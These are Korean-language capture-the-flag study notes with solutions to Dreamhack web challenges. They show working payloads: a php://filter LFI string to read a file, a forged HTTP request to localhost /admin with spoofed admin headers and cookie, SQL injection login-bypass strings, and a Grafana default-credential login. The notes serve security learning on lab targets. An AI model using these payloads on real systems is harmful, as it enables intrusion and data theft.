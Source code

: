 - `/?page=php://filter/convert.base64-encode/resource=/var/www/uploads/flag`
    - 이러면 flag파일이 base64로 인코딩되서 렌더링이 됨.
    - 렌더링 된 base64 코드를 디코딩함. 
    - `<?php $flag = 'DH{<여기에 플래그>}'; ?> can you see $flag?`
    - `/page=/var/www/uploads/flag`에서는 안보인 flag내용을 확인가능!

>php://filter로 확인가능하다니 신기하다.

## proxy-1

    socket으로 host, port, data를 적어서 통신을 보낼 수 있다.
    flag는 로컬 호스트 /admin 경로에 있다.

- 서버 그 자체에 요청을 보내야 하기에 호스트와 포트는 127.0.0.1:8000
- data에는 HTTP packet형태에 맞게 작성을 해줘야함. 
    >POST /admin HTTP/1.1  
    >Host: host1.dreamhack.games:8203  
    >User-Agent: Admin Browser  
    >DreamhackUser: admin  
    >Cookie: admin=true  
    >Content-Type: application/x-www-form-urlencoded  
    >Content-Length: 12
    >  
    >userid=admin  
- 주어진 서버 소스에 없는 Content-Length, Content-Type도 넣어줘야함. POST에는 필수!

***
    HTTP 요청을 직접 작성하게 하는 것에 목적이 있는 문제.   

## simple-SQLi

    id, pw를 받는 인풋이 있다.
    admin으로 로그인을 해야한다. 

- id = `admin" or 1--` 해보니, guest로 로그인이 된다.
    - ?? 아마도, 참이 되는 것은 맞지만, 테이블의 최상단에 guest가 있어서, 그게 나오는 듯. 그래서 앞에 admin을 붙이는 게 의미없음. 

- `or 1 order by 1--` 로 정렬을 바꾸거나, 
- `admin--` 만 보내서 `or 1` 처럼 전부 참이 되지 않게 한다.

## web-misconf-1

Grafana
- 디폴트 계정 admin/admin을 그대로 사용하고 있음. 
- admin계정으로 로그인하면 끝

>디폴트 계정을 그냥 쓰는 것의 위험성을 보여주는 문제

## xxs-1

    flag는 서버내에서 보내는 아래 HTTP요청의 쿠키 값임.
    
    memo는 요청 URL파라미터 값을 출력함.
    /memo?memo=hello
    서버의 변수를 URL요청에 담아서 값을 확인할 수 있음.
